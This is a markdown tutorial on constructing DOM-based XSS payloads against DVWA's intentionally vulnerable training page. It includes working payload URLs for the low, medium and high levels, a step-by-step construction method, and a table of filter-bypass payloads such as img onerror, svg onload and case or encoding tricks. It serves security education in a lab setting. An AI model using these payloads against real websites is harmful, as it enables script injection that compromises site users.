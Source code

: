 # 🧠 Understanding DOM-Based XSS Payload Construction

This guide explains how to analyze, deconstruct, and build DOM-based XSS (Cross-Site Scripting) payloads step-by-step using examples from DVWA.

---

## 📜 Vulnerable Code Context

From the DVWA DOM XSS page, we analyze this JavaScript:

```html
<script>
    if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
        document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    }
</script>
```

🔍 This script:
- Reads the `default=` parameter from the URL.
- Writes it directly into the page using `document.write()`.

---

## 🧪 Low Security – Payload

```
http://localhost/vulnerabilities/xss_d/?default=');<script>alert('hacked!');</script>//
```

### 🔎 How it works:
- `');` closes the `value` attribute.
- `<script>alert(...)</script>` injects JS.
- `//` comments out the rest.

Resulting HTML:
```html
<option value=''>
<script>alert('hacked!');</script>
</option>
```

✅ JavaScript is executed.

---

## 🛡️ Medium Security – Filter Bypass

```php
if (stripos ($default, "<script") !== false) {
    redirect to default=English
}
```

This blocks `<script>` tags.

### ✅ Bypassed with image-based event:
```
http://localhost/vulnerabilities/xss_d/?default=English</option></select><img src='x' onerror='alert(1)'>
```

This breaks out of the HTML safely and injects an `<img>` with an `onerror` JavaScript handler.

---

## 🔒 High Security – Whitelist Bypass

PHP restricts input to one of:
- English
- French
- Spanish
- German

But JS still processes the full URL, including fragments.

### 🧪 Payload:

```
http://localhost/vulnerabilities/xss_d/?default=English#<script>alert('hacked')</script>
```

Even though PHP whitelists `default=English`, JavaScript reads everything after the `#`.

Injected:
```js
var lang = 'English#<script>alert("hacked")</script>'
```

Browser renders:
```html
<option value='English#<script>alert("hacked")</script>'>...
```

✅ JS executes the script from the URL fragment.

---

## 🧰 How to Build DOM XSS Payloads – Step by Step

| Step | What to Do | Why |
|------|------------|-----|
| 1️⃣ | Read the vulnerable JavaScript | Know how input is used |
| 2️⃣ | Identify context (attribute, innerHTML, eval) | Injection needs context awareness |
| 3️⃣ | Break out of that context | Use `'`, `">`, `</tag>` as needed |
| 4️⃣ | Insert payload | `<script>`, `onerror=alert()`, `onload=...` |
| 5️⃣ | Neutralize code after | Use `//`, valid closing HTML |

---

## 🔐 Bypass Tips for Filters

| Bypass Case | Payload Example |
|-------------|-----------------|
| Script tag blocked | `<img src=x onerror=alert(1)>` |
| Event-based XSS | `<svg/onload=alert(1)>` |
| Attribute Injection | `' onfocus=alert(1) autofocus>` |
| Fragment-based bypass | `#<script>alert(1)</script>` |
| Case-insensitive filter | `<ScRipT>alert(1)</sCript>` |
| Double encoding | `%3Cscript%3Ealert(1)%3C/script%3E` |

---

## ✅ Summary

DOM-based XSS is about injecting malicious input where JavaScript dynamically injects HTML based on the URL.

- Always look **where the input lands** in the DOM.
- Modify the **structure of the page safely** to sneak in JS.
- **Bypass filters** using encoding, event handlers, and creative HTML.

